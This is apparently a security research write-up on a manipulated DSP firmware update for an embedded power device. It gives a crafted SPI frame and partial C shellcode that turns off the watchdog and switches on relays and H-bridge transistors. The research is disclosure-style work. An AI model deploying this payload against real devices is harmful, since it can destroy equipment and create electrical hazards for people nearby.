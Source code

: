 Following strategy has been used to switch on both relays R1 and R2 with a manipulated DSP update image: the first relay R1 is directly connected to the DSP via a dedicated pin. Switching it is simple: set the pin as GPIO output with value '1'. The second relay R2 is connected to the MCU via a dedicated pin. The MCU is probably not updatable. However, a specific SPI frame from the DSP can be used to switch on the relay (see the next section).

#### DSP <> MCU communication

In order to switch the relay R2 (connected to the MCU), following SPI traffic is needed: in a first phase, the DSP sends a sync word `0xAB` repeatedly to the MCU and waits for the answer `0xCD`. In a second phase, following frame is sent by the DSP to the MCU:

```
0x7d 0x0c 0x00 0x04 0x00 0x5a 0x7d 0x1c 0x66 0x51 0xed 0x98
```

This frame has three parts. A header `0x7d 0x0c`, the frame content and a 2 bytes CRC (MODBUS-CRC) at the end.
The MCU flash dump has been used to craft this frame. 

Note that all devices (MCU, CPU, DSP) do not use any form of secure boot and secure debugging.

### DSP Shellcode

A simple shellcode has been written which switches both relays and 2 H-Bridge transistors on after deactivating interrupts and watchdog:

```c
void dothat()
{
    long i;
    long j;

    Uint16 rxword16;
    Uint8 rxword8;
    Uint8 sync = 0;

    // frame to switch on relay 2
    Uint8 spi_frame_1[12] = {
        0x7d, 0x0c, 0x00, 0x04,
        0x00, 0x5a, 0x7d, 0x1c,
        0x66, 0x51,
        // checksum
        0xed, 0x98
    };

    // frame to switch off relay 2
    Uint8 spi_frame_2[12] = {
        0x7d, 0x0c, 0x00, 0x00,
        0x00, 0x5a, 0x7d, 0x1c,
        0x66, 0x51,
        // checksum
        0x2d, 0xdd
    };
    // disable all IRQ
    DINT;
    // allow access to system reg
    EALLOW;
    // switch off watchdog
    SysCtrlRegs.WDCR = 0x00EB;

    // reset spi, 8 bit word
    SpibRegs.SPICCR.all =0x0007;

    // reset fifos
    SpibRegs.SPIFFTX.all=0x4040;
    SpibRegs.SPIFFRX.all=0x0044;
```